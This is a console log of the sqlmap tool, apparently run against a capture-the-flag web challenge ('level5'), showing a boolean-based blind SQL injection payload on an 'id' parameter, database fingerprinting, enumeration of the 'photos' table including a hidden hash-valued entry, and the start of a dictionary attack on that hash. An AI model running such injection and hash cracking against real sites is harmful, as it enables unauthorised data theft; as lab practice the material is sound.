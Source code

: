                 [08:16:51] [INFO] testing 'Generic UNION query (NULL) - 1 to 20 columns'
                [08:16:51] [INFO] automatically extending ranges for UNION query injection technique tests as there is at least one other (potential) technique found
                [08:17:07] [INFO] checking if the injection point on GET parameter 'id' is a false positive
                GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] N
                sqlmap identified the following injection point(s) with a total of 36 HTTP(s) requests:
                ---
                Parameter: id (GET)
                    Type: boolean-based blind
                    Title: AND boolean-based blind - WHERE or HAVING clause
                    Payload: id=2 AND 7300=7300
                ---
                [08:17:23] [INFO] testing Microsoft Access
                [08:17:24] [WARNING] the back-end DBMS is not Microsoft Access
                [08:17:24] [INFO] testing MySQL
                [08:17:26] [INFO] confirming MySQL
                [08:17:31] [INFO] the back-end DBMS is MySQL
                web application technology: OpenResty 1.21.4.1
                back-end DBMS: MySQL >= 5.0.0 (MariaDB fork)
                [08:17:33] [WARNING] missing database parameter. sqlmap is going to use the current database to enumerate table(s) entries
                [08:17:33] [INFO] fetching current database
                [08:17:33] [WARNING] running in a single-thread mode. Please consider usage of option '--threads' for faster data retrieval
                [08:17:33] [INFO] retrieved: level5
                [08:18:37] [INFO] fetching tables for database: 'level5'
                [08:18:37] [INFO] fetching number of tables for database 'level5'
                [08:18:37] [INFO] retrieved: 2
                [08:18:44] [INFO] retrieved: albums
                [08:20:23] [INFO] retrieved: photos
                [08:21:41] [INFO] fetching columns for table 'photos' in database 'level5'
                [08:21:41] [INFO] retrieved: 4
                [08:21:47] [INFO] retrieved: id
                [08:22:17] [INFO] retrieved: title
                [08:23:20] [INFO] retrieved: filename
                [08:24:52] [INFO] retrieved: parent
                [08:26:26] [INFO] fetching entries for table 'photos' in database 'level5'
                [08:26:26] [INFO] fetching number of entries for table 'photos' in database 'level5'
                [08:26:26] [INFO] retrieved: 3
                [08:26:41] [INFO] retrieved: files/adorable.jpg
                [08:30:26] [INFO] retrieved: 1
                [08:30:37] [INFO] retrieved: 1
                [08:30:48] [INFO] retrieved: Utterly adorable
                [08:34:12] [INFO] retrieved: files/purrfect.jpg
                [08:38:10] [INFO] retrieved: 2
                [08:38:27] [INFO] retrieved: 1
                [08:38:37] [INFO] retrieved: Purrfect
                [08:40:24] [INFO] retrieved: 7aeb980c8f4c0f954969bbe9e2e641c9e58a4f4f1be4d3b8b62ff695f9fcce52
                [08:55:43] [INFO] retrieved: 3
                [08:55:55] [INFO] retrieved: 1
                [08:56:08] [INFO] retrieved: Invisible
                [08:57:45] [INFO] recognized possible password hashes in column 'filename'
                do you want to store hashes to a temporary file for eventual further processing with other tools [y/N] N
                do you want to crack them via a dictionary-based attack? [Y/n/q] Y
                [08:57:45] [INFO] using hash method 'sha256_generic_passwd'
                what dictionary do you want to use?
                [1] default dictionary file '/home/lsaldanha/.local/lib/python3.10/site-packages/sqlmap/data/txt/wordlist.tx_' (press Enter)
                [2] custom dictionary file
                [3] file with list of dictionary files
                > 1
                [08:57:45] [INFO] using default dictionary